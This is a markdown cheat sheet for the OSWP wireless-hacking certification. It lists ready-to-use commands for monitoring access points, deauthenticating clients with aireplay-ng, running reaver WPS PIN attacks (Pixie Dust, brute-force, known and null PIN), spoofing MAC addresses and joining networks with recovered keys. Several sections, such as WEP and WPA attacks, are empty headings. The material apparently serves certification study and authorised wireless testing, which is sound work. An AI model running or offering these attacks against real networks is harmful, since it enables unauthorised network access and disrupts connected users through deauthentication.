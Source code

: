 # OSWP cheat sheets

This cheat sheet based on "WiFi Hacking Mind Map - v1.0 by Jérémy Brun-Nouvion (https://github.com/koutto)"

Alsoo see my wifu.sh (to make all tasks easier)

## Monitoring
### Find all AP and connected devices
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band>
```

### Monitor target AP
```
airodump-ng <interface> --wps --manufacturer --uptime --band <band> -c <channel> --bssid <bssid> -w res
```
### Unhide ESSID
Set channel
```
iwconfig wlan0 channel <channel>
```
Catch beacon with ESSID
```
aireplay-ng -0 <deauth number> -a <AP MAC> <interface> 
aireplay-ng -0 <deauth number> -a <AP MAC> -c <Client MAC> <interface> #Some clients ignore broadcast deauthentications. If this is the case, you will need to send a deauthentication directed at the particular client.
```


## WEP attack


## WPS attack
**Dependencies:** reaver

_Some APs have protections. AP might have PIN timeout after a series of failures. These APs then require either a timeout or a reset to remove the lock._

### Custom PIN association 
 
### Pixie Dust attack 
```
 reaver -i <interface> -b <AP_MAC> -K
```
 
### Bruteforce PIN attack 
```
sudo reaver -i <interface> -b <AP_MAC>
```
 
### Known PINs attack
```
reaver -i <interface> -b <AP_MAC> -p <PIN>
```
 
### Null PIN attack 
_Only a very few APs are vulnerable to this attack_
```
reaver -i <interface> -b <AP_MAC> -p "" -N
```

## WPA attack


## WPA Enterprise



## Connect to AP

### Open
```
iw <interface> connect <ESSID>
dhclient <interface>
```

### WEP
```
iw <interface> connect <ESSID> key 0:<key>
dhclient <interface>
```

### WPA2

Dependencies: wpasupplicant
```

wpa_passphrase "<ESSID>" <key> | sudo tee /etc/wpa_supplicant.conf
wpa_supplicant -B -c /etc/wpa_supplicant.conf -i <interface>
dhclient <interface>
```

### WPA enterprise

```
sudo dhclient <interface>
```

## Other
### MAC-spoofing
```
ip link set dev <interface> down
ip link set dev <interface> address <XX:XX:XX:XX:XX:XX>
ip link set dev <interface> up
```
### Prepare Attacker PC (Monitor mode)
```
airmon-ng check kill
airmon-ng start <interface>
```
### Back to normal modee (Managed mode)
```
airmon-ng stop <Monitor interface>
systemctl start wpa_supplicant
systemctl start NetworkManager
```
